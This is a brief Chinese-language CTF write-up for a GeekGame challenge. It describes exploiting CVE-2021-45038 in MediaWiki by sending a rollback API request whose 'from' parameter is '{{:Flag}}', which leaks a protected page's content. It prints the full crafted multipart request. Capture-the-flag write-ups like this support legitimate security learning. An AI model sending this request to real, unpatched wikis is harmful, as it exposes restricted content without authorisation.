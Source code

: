 # 私有笔记

> 第二阶段提示后。

## Flag 1

根据提示，利用 [CVE-2021-45038](https://attackerkb.com/topics/nQ4e21277J/cve-2021-45038/vuln-details)，发送一个 `rollback` 请求，并将 `from` 参数设置为 `{{:Flag}}`，此时返回的回退失败的页面上会自动嵌入 `{{:Flag}}` 页面的内容，从而得到 Flag 1。

```txt
> POST /api.php%26action=rollback HTTP/2
> Host: prob07-2uqyuho6.geekgame.pku.edu.cn
> user-agent: insomnia/2022.4.2
> content-type: multipart/form-data; boundary=X-INSOMNIA-BOUNDARY
> accept: */*
> content-length: 341

* STATE: DO => DID handle 0xb6e02f1c808; line 2077 (connection #3)
* multi changed, check CONNECT_PEND queue!
* STATE: DID => PERFORMING handle 0xb6e02f1c808; line 2196 (connection #3)

| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="action"
| rollback
| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="token"
| +\\
| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="user"
| Flag1
| --X-INSOMNIA-BOUNDARY
| Content-Disposition: form-data; name="from"
| {{:Flag}}
| --X-INSOMNIA-BOUNDARY--
```
